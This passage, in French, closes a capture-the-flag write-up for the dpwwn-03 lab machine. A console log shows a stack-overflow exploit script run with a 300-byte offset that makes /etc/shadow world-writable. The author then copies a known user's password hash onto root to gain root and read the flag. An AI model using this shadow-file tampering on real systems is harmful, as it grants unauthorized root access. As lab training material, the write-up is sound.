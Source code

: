 Avec un offset de 300 octets, c'est passé :

```console
john@dpwwn-03:~$ ls -al /etc/shadow
-rw-r----- 1 root shadow 972 Aug 10  2019 /etc/shadow
john@dpwwn-03:~$ python3 exploit.py 300
john@dpwwn-03:~$ ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 972 Aug 10  2019 /etc/shadow
john@dpwwn-03:~$ vi /etc/shadow
john@dpwwn-03:~$ su root
Password: 
root@dpwwn-03:/home/john# id
uid=0(root) gid=0(root) groups=0(root)
root@dpwwn-03:/home/john# cd /root
root@dpwwn-03:~# ls
dpwwn-03-FLAG.txt
root@dpwwn-03:~# cat dpwwn-03-FLAG.txt

Congratulation !!! Hope you enjoy this smash the stack.

722f7322 
3852277a 
6165327a 
364c4022 
3b5a2959 
3e235051 
7e3e7d3b 
48365577 
787d286e 
6d754350 
58405d3b 
3d6e3b42 
7645909
```

Le shellcode se charge de rendre le fichier `/etc/shadow` modifiable. J'ai alors recopié le hash de l'utilisateur `john` dont je connais le mot de passe pour l'appliquer à `root`.
